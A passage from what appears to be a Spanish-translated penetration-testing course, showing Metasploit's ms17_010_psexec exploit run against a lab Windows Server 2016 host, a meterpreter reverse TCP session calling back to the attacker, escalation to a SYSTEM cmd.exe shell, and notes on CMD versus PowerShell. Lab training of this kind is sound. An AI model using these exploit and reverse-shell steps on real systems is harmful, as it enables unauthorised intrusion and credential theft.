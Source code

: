 Esta vez, lo mantuvimos simple y solo usamos un `windows/meterpreter/reverse_tcp`carga útil. Puedes cambiar esto como desees para un tipo de proyectil diferente u ofuscar más tu ataque, como se muestra en las secciones de cargas útiles anteriores. Con nuestras opciones configuradas, intentémoslo y veamos si conseguimos un proyectil.

```js
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.15.13:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176198 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.15.13:4444 -> 10.129.201.97:49673) at 2024-06-21 20:12:47 -0400

meterpreter > 
```

Conseguimos nuestro exploit y obtuvimos una sesión de shell. A `SYSTEM`caparazón nivelado en eso. Como se vio en los módulos anteriores de MSF, ahora que tenemos una sesión abierta a través de Meterpreter, se nos presenta el `meterpreter >` inmediato. Desde aquí, podemos utilizar Meterpreter para ejecutar más comandos para recopilar información del sistema, robar credenciales de usuario o utilizar otro módulo posterior a la explotación contra el host.

5 - Identify the Native Shell.

```js
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 540 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Cuando ejecutamos el comando Meterpreter `shell`, inició otro proceso en el host y nos colocó en un shell del sistema. ¿Puedes determinar en qué nos encontramos a partir del mensaje? solo viendo `C:\Windows\system32>` puede indicarnos que estamos en una `cmd.exe shell`. Para estar seguro, simplemente ejecutando el comando help desde el shell también se lo informará. Si nos colocaran en PowerShell, nuestro mensaje se vería así `PS C:\Windows\system32>`. El PS al frente nos permite saber que es una sesión de PowerShell.

## CMD-Prompt y Power[Shell]s
Usar `CMD` cuando:
- Estás en un host antiguo que puede no incluir PowerShell.
- Cuando solo requiere interacciones/acceso simples al host.
- Cuando planea utilizar archivos por lotes simples, comandos net o herramientas nativas de MS-DOS.
- Cuando crea que las políticas de ejecución pueden afectar su capacidad para ejecutar scripts u otras acciones en el host.
